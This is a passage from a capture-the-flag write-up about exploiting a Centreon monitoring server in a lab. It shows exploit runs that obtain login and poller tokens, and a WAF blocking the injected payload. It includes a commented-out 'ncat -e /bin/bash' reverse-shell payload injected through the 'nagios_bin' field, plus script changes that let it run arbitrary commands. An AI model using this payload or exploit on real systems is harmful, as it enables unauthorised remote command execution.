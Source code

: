     
    
    root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 6e9b4561b4c05180b23c8d0b854ed7a0
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 720954a0f1742c2428b9fc9c8c00a670
    [*] Payload inject status code: 403
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    

That’s why it’s failing. The injection POST is being blocked by the WAF.

I emptied out the payload line:

    
    
            # this value contains the payload , you can change it as you want
            #"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
            "nagios_bin": "",
    

And ran again:

    
    
    root@kali# ./centreon-exploit.py http://10.10.10.157/centreon/ admin password1 10.10.14.30 443
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : fe57a7dc6569207997e51a35b33e7a4a
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 4654f45a045a9fea5c86d690ae9f02bc
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    

It was passed through. Obviously I didn’t get code execution, but now I have a
clear task to find a payload that bypasses the WAF and returns a shell.

### Script Update

I decided to update the exploit script to better suit the task. I wasn’t a
huge fan of having a `ncat -e` payload in there to begin with, as it’s more
likely than not that `-e` won’t be available. I changed the script so that
rather than trying to force a specific reverse shell, it takes a command to
run. The top looks like:

    
    
    if len(sys.argv) != 5:
        print(len(sys.argv))
        print("[~] Usage : ./centreon-exploit.py url username password command")
        exit()
    